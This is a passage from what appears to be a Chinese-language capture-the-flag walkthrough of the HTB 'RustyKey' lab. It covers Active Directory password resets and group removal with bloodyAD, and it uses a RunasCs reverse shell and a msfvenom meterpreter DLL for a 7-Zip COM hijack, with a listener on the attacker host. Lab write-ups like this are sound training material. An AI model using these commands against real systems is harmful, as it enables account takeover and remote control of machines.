 1. 4. 需要关注这个软件的注册表，很可能提权条件就在这里  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0U1FT6mMFw5iaJhORzTUe1PVS4YqicCLYBaVEXibd9yox29ibicPFwz3ps6w/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
support 组只有一个用户 EE.REED，前面得知 helpdesk 组对 EE 用户也有强制改密码的权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0ljBoM8MccnzR0BovIeJ7ZBsibV8wtbRlgYAEoemIHJGs9iah5yLVLdcg/640?wx_fmt=png&from=appmsg "null")  
  
  
support 组也属于受保护的对象  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0v8icRT0cOwqxkCPicic50OPr5e1mgTfs6SulwQp7CfKqiaOUlEtYK25KXg/640?wx_fmt=png&from=appmsg "null")  
  
  
因此可以用对 BB 用户一样的操作来对 EE 用户  

```
# 修改密码
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k set password EE.REED 'RTCC@123'

# 把support组从受保护的对象移除
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
```

  
测试时获取 EE 用户的 TGT 票据失败，不过没关系，现在已经有远程交互权限，直接上传一个 runascs.exe 工具，以 EE 用户反弹一个 shell 出来  
> runascs.exe 是系统自带 runas 的升级版，可以非交互式直接在把密码作为参数一条命令完成操作，类似的还有 lsrunas.exe、lsrunase.exe 等  
  

```
.\RunasCs.exe ee.reed RTCC@123 cmd.exe -r 10.10.14.98:4445
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0pz2HfKonnjjKaiaiacUwHCS9yBaSnrUtohicxftDJGwyHibukibt0eK3gbw/640?wx_fmt=png&from=appmsg "null")  
  
### COM 劫持  
  
根据前面 PDF 中的线索，在该机器的软件安装目录发现安装了 7zip 压缩软件，线索中还提到了需要关注压缩软件的注册表，因此先查询一下注册表项  

```
reg query HKEY_CLASSES_ROOT\CLSID /f &#34;7-Zip&#34; /s
```

  
看到 7-zip 的 CLSID 以及加载的一个 dll 路径  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0D17CUZLwibGicKGSwhoQibgn4o9D0bHnHmrtNljs0PVJxlOURBCFlw9RQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
上传 accesschk.exe 检测到 support 组对这个注册表有读写权限  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0x58lqxHvo9WXnSxu3jbvNdicRj98RJlrLpibmXa7SIlpXP7HXqiayib8Cg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
MSF 生成一个恶意 dll，上传到目标机器临时目录，攻击机开启监听  

```
# 生成dll
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.98 LPORT=4444 -f dll -o RTCC.dll

# 开启监听
msfconsole -q -x &#34;use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.14.98; set LPORT 4444; exploit&#34;
```
